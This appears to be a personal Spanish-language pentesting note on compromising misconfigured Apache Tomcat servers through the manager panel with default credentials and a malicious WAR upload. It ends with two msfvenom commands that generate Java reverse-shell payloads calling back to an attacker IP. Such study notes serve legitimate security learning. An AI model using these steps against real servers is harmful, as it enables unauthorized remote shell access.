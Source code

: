 
---
Es un tipo de servidor apache que es vulnerable y se puede explotar de la siguiente manera:

 - En la enumeración del sistema con nmap el nombre del servidor es *Apache tomcat*, puede correr en varios puertos pero en general se le ve en el puerto 8080 

1. Generalmente esto es lo que se muestra cuando no esta configurado :

![[Pasted image 20251020214113.png]]

- Aqui seleccionaremos el panel manager webapp para que aparezca un panel de login similar al siguiente

![[Pasted image 20251020214736.png]]

##### Muchas veces en el mensaje de error salen las credenciales como a continuación:

![[Pasted image 20251020214844.png]]

##### En internet podríamos buscar lo siguiente *Apache tomcat default Credentials Hackticks* para buscar credenciales por defecto que tiene el servidor, algunas de ellas son:

  ![[Pasted image 20251020214345.png]]

##### Una vez entremos al panel de administración del tomcat podremos ir a algún apartado de subida de archivos como el siguiente y subir un archivo malicioso:

![[Pasted image 20251020215119.png]]

El archivo malicioso que se suele subir es de java y con estos códigos en [[1. MsfVenom]]  podremos generar sus respectivas revershell:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<IpAtacante> LPORT=443 -f war -o reverse1.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IpAtacante> LPORT=443 -f war -o reverse2.war

# Debemos probar ambos payloads porque dependiendo el tomcat  suelen ser diferentes revershell

```

